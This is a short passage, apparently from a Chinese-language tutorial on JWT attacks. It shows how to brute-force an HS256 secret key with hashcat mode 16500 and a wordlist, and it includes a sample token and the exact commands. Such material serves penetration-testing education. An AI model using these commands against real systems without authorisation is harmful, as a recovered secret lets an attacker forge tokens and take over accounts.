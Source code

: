 ![image-20221014163025179](../../images/image-20221014163025179.png)



## 5 Brute-forcing secret keys

我们可以通过hastcat工具针对JWT的secret key进行暴力破解。

我们可以通过如下的命令方式进行破解：

```
hashcat -a 0 -m 16500 <jwt.txt> <wordlist>
测试成功后，可以通过--show的参数进行展示
```

测试的key内容如下：

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJmYXJtc2VjIiwibmFtZSI6IlRRIiwiaWF0IjoxODg4ODg4ODg4OH0.NBlmhXhuEj64iLOb9dCKozDcZYYpcMJrsdDUVjadAEg
```



```
hashcat -a 0 -m 16500 jwt.txt pass.txt
hashcat -a 0 -m 16500 jwt.txt pass.txt --show
```

![image-20221014161651509](../../images/image-20221014161651509.png)
